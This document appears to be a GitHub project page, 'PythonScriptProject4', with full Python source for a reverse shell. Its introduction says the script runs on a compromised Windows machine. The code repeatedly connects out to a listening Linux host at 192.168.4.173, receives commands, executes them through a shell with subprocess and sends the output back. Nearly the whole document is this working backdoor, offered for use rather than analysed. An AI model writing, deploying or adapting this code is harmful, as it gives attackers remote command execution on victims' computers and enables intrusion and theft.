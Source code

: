 # PythonScriptProject4
On a compromised window machine we have a python script that connects to a listening port on a linux machine. This python script will execute a command specified by our linux machine.
import time
import socket
import subprocess


def recvall(s):
   data=s.recv(1)
   s.setblocking(0)
   starter=time.time()
   print('loop start')
   while time.time()-starter<2: #time calls for 2 seconds
      try:
         newdata=s.recv(2048) 
         if newdata==0:#s.recieve 0 if connection is terminated. s.recieve throws an erorr if live but no new data
            break
      except socket.error: 
         pass
      else: 
         data+=newdata
         starter=time.time()#if it recieves data restarts
   s.setblocking(1)#when blocking is on s.recieve will hang until data is recieved
   return data.decode()


def myconn(s,dat):
   connected=False #will continue to try to make connections as long as connected=false
   while not connected:
      for port in dat[1]:
         try:
            print('try port',port)
            s.connect((dat[0],port))
         except socket.error:
            print('Could not connect') 
            time.sleep(1)
            continue 
         else:
            print('connected') 
            connected=True 
            break


def main(dat): #calls main with argument which is tuple
  
   while True:
      s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      myconn(s,dat)
      time.sleep(1)
      cmd=recvall(s)
      if cmd == 'finn\n':
         s.close()
         break
   
      print(cmd)
      subby=subprocess.Popen(cmd,shell=True,stdin=subprocess.PIPE,stdout=subprocess.PIPE,stderr=subprocess.PIPE)
      
      output,error=subby.communicate()#subprocess.popen as a shell command the output is then captured with subby.communicate
      print(output)
      
      s.send(output)# Sends proccess output to listening socket on kali
   
      s.close()

main(('192.168.4.173',[432,34395]))

